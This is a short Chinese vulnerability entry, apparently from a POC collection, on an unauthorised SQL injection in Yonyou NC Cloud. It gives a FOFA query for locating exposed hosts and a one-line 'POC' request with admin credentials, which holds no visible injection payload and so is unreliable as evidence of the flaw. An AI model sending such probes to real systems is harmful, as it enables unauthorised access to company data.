 ## 用友NC Cloud Sql注入漏洞

## 漏洞描述

攻击者构造恶意SQL语句未授权获取后台敏感数据。

## 漏洞影响

> NC Cloud

## FOFA

> "NCCloud"

## POC

```
/fs/console?username=admin&password=123456
```

![1](resource/用友NC-Cloud-Sql注入/1.png)

![2](resource/用友NC-Cloud-Sql注入/2.png)